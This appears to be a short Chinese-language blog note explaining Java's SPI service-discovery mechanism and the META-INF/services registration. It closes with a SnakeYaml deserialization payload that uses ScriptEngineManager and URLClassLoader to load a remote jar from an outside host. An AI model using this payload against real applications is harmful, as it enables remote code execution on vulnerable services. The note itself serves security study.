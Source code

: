 ```yaml
---
title: "SPI"
author: ["4shen0ne"]
tags: ["java"]
draft: false
---
```


SPI（Service Provider Interface），是 JDK 内置的一种服务提供发现机制，可以用来启用
框架扩展和替换组件，主要是被框架的开发人员使用，比如 `java.sql.Driver` 接口，其他
不同厂商可以针对同一接口做出不同的实现，MySQL 和 PostgreSQL 都有不同的实现提供给用
户，而 Java 的 SPI 机制可以为某个接口寻找服务实现。Java 中 SPI 机制主要思想是将装配的控
制权移到程序之外，在模块化设计中这个机制尤其重要，其核心思想就是解耦。

当服务的提供者提供了一种接口的实现之后，需要在 classpath 下的 `META-INF/services/`
目录里创建一个以服务接口命名的文件，这个文件里的内容就是这个接口的具体的实现类。
当其他的程序需要这个服务的时候，就可以通过查找这个 jar 包（一般都是以 jar 包做依赖）
的 `META-INF/services/` 中的配置文件，配置文件中有接口的具体实现类名，可以根据这个
类名进行加载实例化，就可以使用该服务了。

相关利用：SnakeYaml 反序列化链利用 ScriptEngineManager 通过 SPI 远程加载 jar 包

```nil
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://1.1.1.1:80/yaml-payload.jar"]
  ]]
]
```
